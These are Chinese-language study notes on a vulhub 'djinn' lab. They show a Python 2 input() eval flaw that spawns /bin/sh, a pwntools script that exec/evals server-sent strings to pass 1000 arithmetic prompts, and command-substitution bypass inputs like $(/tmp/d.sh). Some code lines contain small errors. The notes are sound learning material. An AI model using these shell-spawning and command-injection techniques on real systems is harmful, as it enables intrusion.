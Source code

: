 **虚拟环境安装**
```bash
python -m venv .venv
cd .venv ; source bin/activate
cd .. ; pip install .
```
### python2 特性

```python
def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'
```

可以直接输入：num
![](photos/Pasted%20image%2020231227111451.png)


### PWN

- 案例
> **[0x15 djinn WP](../../0X03%20vulhub%20WP/第三组推荐靶机%20obsibian/0x15%20djinn%20WP.md)**

![](photos/Pasted%20image%2020231226183953.png)

- 要连续答对1000题，会给 GIFT 。
- 先输出到 gift.  ；然后下面是一个数组(7,'+',8) , 输出到> 
- 获取数组中各个的值进行运算
- 输入运算后的数据
- 打印下一次信息


- **import**
```python
from pwn import *
```

```python
conn = remote('192.168.55.139', 1337)
#用于创建一个与远程服务器的连接
resp = conn.recvuntil(b'gift.\n')
#从远程连接接收数据,直到遇到指定的字符串为止
#b表示字节字符串
print(resp.decode(), end='')
```

![](photos/Pasted%20image%2020231226190104.png)

再看一下下一次的输出：
![](photos/Pasted%20image%2020231226190141.png)

**所以我们这次只要到 > 就可以了：**
```python
resp = conn.recvuntil(b'> ', end='')
print(resp.decode(), end='')
```

![](photos/Pasted%20image%2020231226185710.png)

**接下来就是处理运算输入打印的操作：**

- **split()**
![](photos/Pasted%20image%2020231226192148.png)

- **exec() eval()**
![](photos/Pasted%20image%2020231226193552.png)

```python
data = resp.decode().split('\n')[0]
#处理输出的字符串 ， 截取前半段(x,'x',x)
exec(f'data = {data}')
#把处理过的数据转换成f-string ; {data}为占位符 , f:f-string缩写
result = eval(f'{data[0]} {data[1]} {data[2]}')
#使用eval和{data[]}占位符 进行运算
result = str(result)
print(result， end='')
conn.send(result.encode())
```

![](photos/Pasted%20image%2020231226195041.png)

把最后一次的运行交给我们，好让我们看见最后输出了什么 gift ，同时要记得断开连接

```python
conn.interactive()
#暂停执行脚本，把控制权交给用户
conn.close()
#关闭连接
```

最后就是循环1000次:

```python
from pwn import *

conn = remote('192.168.55.139', 1337)
resp = conn.recvuntil(b'gift.\n')
print(resp.decode(), end='')

for i in range(1000):
	
	resp = conn.recvuntil(b'> ')
	print(resp.decode, end='')
	
	data = resp.decode().split('\n')[0]
	exec(f'data = {data}')
	result = eval(f'{data[0]} {data[1]} {data[2]}')
	
	result = str(result) + '\n'
	print(result, end='')
	conn.send(result.encode())

conn.interactive()
conn.close()
```


**python 绕过**
$(xxx)
$(/tmp/d.sh)
$(echo 8)